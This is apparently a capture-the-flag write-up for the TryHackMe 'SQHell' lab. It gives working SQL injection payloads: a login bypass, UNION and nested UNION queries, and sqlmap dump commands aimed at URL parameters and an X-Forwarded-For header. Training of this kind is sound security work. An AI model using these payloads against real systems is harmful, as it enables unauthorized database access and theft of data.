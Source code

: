 # SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't useful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver

![website](webserver_landing_page.PNG)

### Login page

![login page](login_page.PNG)

I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, managed to bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1 union select 1,2,user(),4
```

![post](post_id_user.PNG)

Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and Conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to came across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam Langley gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```

![user sql injection](sqhell_user_injection.PNG)

This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```

![sql user flag](sql_user_flag_redacted.png)

Success, we were finally able to retrieve the flag!
